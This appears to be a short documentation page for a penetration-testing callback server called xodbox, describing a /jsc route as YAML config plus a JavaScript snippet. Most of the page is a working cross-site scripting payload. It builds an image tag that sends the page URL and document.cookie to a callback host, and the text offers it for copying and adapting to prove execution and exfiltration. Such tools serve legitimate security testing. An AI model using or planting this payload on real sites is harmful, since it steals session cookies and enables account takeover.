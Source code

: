 ```yaml
---
title: XSS JavaScript
description: Returns JS that embeds an image back to xodbox
weight: -500
pattern: /jsc$
is_final: true
data:
  headers:
    Content-Type: text/javascript
  body: |
    (function (){
        var s = document.createElement("img");
        document.body.appendChild(s);
        s.src="{{ .CallBackURL}}?src="+window.location+"&c="+document.cookie;
    })()
---
```


### /jsc

Simple JS Payload. Useful form embedding or quickly copying and modifying for an XSS payload to prove execution and
exfil.

```javascript
(function (){
    var s = document.createElement("img");
    document.body.appendChild(s);
    s.src="//{{ .Host }}/jscb?src="+window.location+"&c="+document.cookie;
})()

```
